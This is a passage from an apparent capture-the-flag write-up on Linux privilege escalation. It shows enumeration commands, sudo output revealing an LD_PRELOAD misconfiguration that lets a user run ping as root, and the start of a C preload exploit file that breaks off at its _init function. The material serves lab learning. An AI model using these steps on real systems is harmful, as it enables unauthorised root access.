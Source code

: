   ```
  sudo -l
  ls -al
  pwd
  whoami
  mysql -u root -p
  netstat -antlp
  mysql -u root
  sudo su
  ssh root@192.169.155.104
  mysql -u user -p
  mysql -u db_user -p
  ls -ld /var/lib/mysql
  ls -al
  cat .bash_history 
  cat .bash_logout 
  nano .bashrc 
  ls -al
  
  saad@ip-10-10-26-41:~$ sudo -l
  [sudo] password for saad: 
  Matching Defaults entries for saad on ip-10-10-26-41:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD
  
  User saad may run the following commands on ip-10-10-26-41:
      (root) /usr/bin/ping
  ```
  
- Exploiting `LD_PRELOAD` is the same as exploitin `LD_LIBRARY_PATH`. You have a full guide on [Hacktricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/linux-capabilities.html?highlight=ping%20privilege#binaries-capabilities).

- Move to `/tmp`, create a C file, paste the code, compile it and then run it with PATH and SUDO command that we can use. It's the same as for `LD_LIBRARY_PATH` exploitation which I covered in `Hijack` CTF.

  ```
  saad@ip-10-10-26-41:~$ cd /tmp
  saad@ip-10-10-26-41:/tmp$ ls -al
  total 48
  drwxrwxrwt 12 root root 4096 Jun  8 17:36 .
  drwxr-xr-x 19 root root 4096 Jun  8 16:48 ..
  drwxrwxrwt  2 root root 4096 Jun  8 16:48 .font-unix
  drwxrwxrwt  2 root root 4096 Jun  8 16:48 .ICE-unix
  drwx------  3 root root 4096 Jun  8 16:48 snap-private-tmp
  drwx------  3 root root 4096 Jun  8 16:48 systemd-private-c79877c89e91457dba4e8fb2affc7112-ModemManager.service-ZVyBEg
  drwx------  3 root root 4096 Jun  8 16:48 systemd-private-c79877c89e91457dba4e8fb2affc7112-systemd-logind.service-Lv9JBi
  drwx------  3 root root 4096 Jun  8 16:48 systemd-private-c79877c89e91457dba4e8fb2affc7112-systemd-resolved.service-ZNPm0e
  drwx------  3 root root 4096 Jun  8 16:48 systemd-private-c79877c89e91457dba4e8fb2affc7112-systemd-timesyncd.service-4guPig
  drwxrwxrwt  2 root root 4096 Jun  8 16:48 .Test-unix
  drwxrwxrwt  2 root root 4096 Jun  8 16:48 .X11-unix
  drwxrwxrwt  2 root root 4096 Jun  8 16:48 .XIM-unix
  saad@ip-10-10-26-41:/tmp$ nano pe.c
  saad@ip-10-10-26-41:/tmp$ cat pe.c 
  #include <stdio.h>
  #include <sys/types.h>
  #include <stdlib.h>
  
  void _init() {
  ```
